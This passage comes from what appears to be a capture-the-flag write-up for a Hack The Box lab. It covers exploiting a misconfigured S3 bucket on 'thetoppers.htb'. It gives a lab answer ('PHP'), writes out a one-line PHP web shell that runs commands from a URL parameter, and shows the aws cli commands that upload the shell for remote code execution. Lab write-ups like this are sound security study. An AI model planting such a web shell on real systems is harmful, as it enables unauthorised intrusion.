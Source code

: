 {% hint style="info" %}
&#x20;The _temp_ value is the default credentials for AWS connections if everything is scaped
{% endhint %}

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (244) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**PHP**_

***

* Then as I had a connection to the S3 instance, I tried to upload a custom file to the bucket in an attempt to gain RCE. To do so, I created a _Shell.php_ file with a proper payload to spawn a shell on the machine and read a command. Then I uploaded it and checked if it had worked by listing the contents of the bucket again

{% code lineNumbers="true" %}
```bash
sudo nano Shell.php
```
{% endcode %}

{% code title="Shell.php" lineNumbers="true" %}
```php
<?php system($_GET["cmd"]); ?>
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp Shell.php s3://thetoppers.htb
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (232) (1).png" alt=""><figcaption></figcaption></figure>
